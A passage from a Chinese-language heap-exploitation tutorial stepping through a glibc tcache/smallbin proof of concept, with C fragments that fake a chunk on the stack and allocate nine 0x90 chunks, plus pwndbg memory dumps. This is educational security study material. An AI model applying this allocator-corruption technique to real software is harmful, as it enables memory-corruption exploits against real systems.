 ```c
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);
    ......
	stack_var[3] = (unsigned long)(&stack_var[2]);
```

```c
pwndbg> x/16gx chunk_lis 
0x7fffffffdd40:	0x0000000000000000	0x0000000000000000
0x7fffffffdd50:	0x0000000000000000	0x0000000000000000
0x7fffffffdd60:	0x0000000000000000	0x0000000000000000
0x7fffffffdd70:	0x0000000000000000	0x0000000000000000
0x7fffffffdd80:	0x0000000000000000	0x0000000000000000
0x7fffffffdd90:	0x0000000000000000	0x0000000000000000
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx stack_var 
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000000	0x00007fffffffdcd0
    								#stack_var[3]
0x7fffffffdce0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcf0:	0x0000000000000000	0x0000000000000000
0x7fffffffdd00:	0x0000000000000000	0x0000000000000000
0x7fffffffdd10:	0x0000000000000000	0x0000000000000000
0x7fffffffdd20:	0x0000000000000000	0x0000000000000000
0x7fffffffdd30:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

然后POC中打印了一些消息（b 29->c）：

```c
You can see the value of fake_chunk->bk is:0x7fffffffdcd0

Also, let's see the initial value of stack_var[4]:(nil)

Now we alloc 9 chunks with malloc.
```

接下来我们在堆上创建了9个大小在tcachebin范围内的堆块，每个堆块返回的指针会保存在chunk_lis数组中（b 34->c）：

```c
    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }
```

```c
pwndbg> x/300gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x00000000000000a1 #chunk_lis[0]
......
0x5555557572f0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[1]
......
0x555555757390:	0x0000000000000000	0x00000000000000a1 #chunk_lis[2]
......
0x555555757430:	0x0000000000000000	0x00000000000000a1 #chunk_lis[3]
......
0x5555557574d0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[4]
......
0x555555757570:	0x0000000000000000	0x00000000000000a1 #chunk_lis[5]
......
```